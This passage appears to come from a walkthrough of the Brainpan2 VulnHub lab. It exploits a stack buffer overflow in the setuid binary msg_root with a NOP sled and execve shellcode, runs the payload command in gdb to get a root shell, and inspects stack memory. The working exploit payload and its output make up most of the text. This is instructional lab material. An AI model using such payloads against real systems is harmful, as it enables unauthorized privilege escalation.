 ![](pics/stack.PNG)
insert stack screenshot

Let's try pointing EIP at 0xbffff1ba with some padded shellcode and it should slide right into it. We try first with this shellcode here: http://shell-storm.org/shellcode/files/shellcode-811.php
```bash
gdb-peda$ r `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 +"\xba\xf1\xff\xbf" + shell + "\x90" * 960'` a
Starting program: /root/vulnhub/brainpan2/msg_root `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 +"\xba\xf1\xff\xbf" + shell + "\x90" * 960'` a
process 2278 is executing new program: /bin/dash
# id
[New process 2284]
process 2284 is executing new program: /usr/bin/id
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
uid=0(root) gid=0(root) groups=0(root)
```

So it does load us a shell, this is on our testing machine however so we're already running as root of course. At this point we move back to the victim machine Brainpan2 and use plain vanilla gdb for the rest. The stack addresses will obviously be somewhat different but it shouldn't be very hard to replicate the same overwrite.

First we take a look at the stack with gdb. Our nops and shellcode end up around this area here if we use the previous payload string and address 0xbffff1ba from above:
```bash
(gdb) x/25xw $esp + 0x200
0xbffffb34:     0xfff1ba41      0x909090bf      0x90909090      0x90909090
0xbffffb44:     0x90909090      0x90909090      0x50c03190      0x732f2f68
0xbffffb54:     0x622f6868      0xe3896e69      0xc289c189      0x80cd0bb0
0xbffffb64:     0xcd40c031      0x90909080      0x90909090      0x90909090
0xbffffb74:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb84:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb94:     0x90909090
```
So let's jump into that space around 0xbffffb44 while we're still inside gdb and hopefully it spawns a shell :
```bash
```